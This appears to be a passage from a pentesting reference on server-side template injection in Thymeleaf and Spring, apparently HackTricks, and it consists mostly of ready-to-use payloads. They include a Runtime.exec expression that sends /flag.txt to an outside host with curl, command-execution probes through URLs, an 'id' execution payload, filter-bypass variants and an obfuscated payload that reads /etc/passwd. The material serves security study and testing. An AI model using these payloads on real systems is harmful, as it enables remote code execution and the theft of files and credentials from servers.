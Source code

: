 
```
#{selection.__${sel.code}__}
```

**Example of Vulnerability in Thymeleaf**

Consider the following code snippet, which could be susceptible to exploitation:



```
<a th:href="@{__${path}__}" th:title="${title}">
<a th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('curl -d @/flag.txt burpcollab.com')}" th:title='pepito'>
```

This indicates that if the template engine processes these inputs improperly, it might lead to remote code execution accessing URLs like:



```
http://localhost:8082/(7*7)
http://localhost:8082/(${T(java.lang.Runtime).getRuntime().exec('calc')})
```

**More information**

- [https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/)
    

[EL - Expression Language](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/el-expression-language)

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#spring-framework-java)

Spring Framework (Java)



```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
```

**Bypass filters**

Multiple variable expressions can be used, if `${...}` doesn't work try `#{...}`, `*{...}`, `@{...}` or `~{...}`.

- Read `/etc/passwd`
    



```
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
